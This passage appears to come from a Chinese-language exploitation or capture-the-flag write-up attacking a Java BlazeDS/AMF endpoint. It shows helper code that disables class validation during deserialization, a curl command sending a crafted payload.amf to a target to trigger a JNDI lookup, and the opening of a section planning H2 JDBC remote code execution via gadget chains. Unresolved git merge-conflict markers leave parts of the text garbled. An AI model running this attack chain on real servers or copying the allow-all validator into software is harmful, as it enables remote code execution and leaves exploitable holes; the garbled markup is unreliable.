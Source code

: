 ```plain

    public static byte[] serialize(Object data) throws Exception {
        MessageBody body = new MessageBody();
        body.setData(data);
        ActionMessage message = new ActionMessage();
        message.addBody(body);
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        AmfMessageSerializer serializer = new AmfMessageSerializer();
        serializer.initialize(SerializationContext.getSerializationContext(), out, null);
        serializer.writeMessage(message);
        return out.toByteArray();
    }

    public static ActionMessage deserialize(byte[] amf) throws Exception {
        ByteArrayInputStream in = new ByteArrayInputStream(amf);
        AmfMessageDeserializer deserializer = new AmfMessageDeserializer();
        SerializationContext context = SerializationContext.getSerializationContext();
        ClassDeserializationValidator validator = new ClassDeserializationValidator();
        validator.addAllowClassPattern(".*");
        context.setDeserializationValidator(validator);
        deserializer.initialize(context, in, null);
        ActionMessage actionMessage = new ActionMessage();
        deserializer.readMessage(actionMessage, new ActionContext());
        return actionMessage;
    }
}
```

将生成的 payload.amf 发送给目标服务器，即可收到 JNDI 请求

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
curl https://192.168.30.131:8443/services/messagebroker/streamingamf -k -H "Content-Type: application/amf" --data-binary @payload.amf --output -
```

## 受限制的 JDBC H2 RCE

### 利用思路

后续原本想通过 JNDI 注入打 Java 原生反序列化，但是没找到合适的 gadget

commons-collections4 为最新的 4.4 版本，这个版本使得包括 InvokerTransformer 在内的一系列 Transformer 都不再实现 Serializable 接口，无法被反序列化

commons-beanutils 虽然可以利用，但没有了 TemplatesImpl, 一时半会没找到其它的 getter gadget

于是转向 JDBC, 观察到环境存在 H2 依赖，因此可以尝试 H2 RCE

<<<<<<< HEAD
首先需要将 JNDI 转换成 JDBC 攻击，参考: [https://tttang.com/archive/1405/](https://tttang.com/archive/1405/)
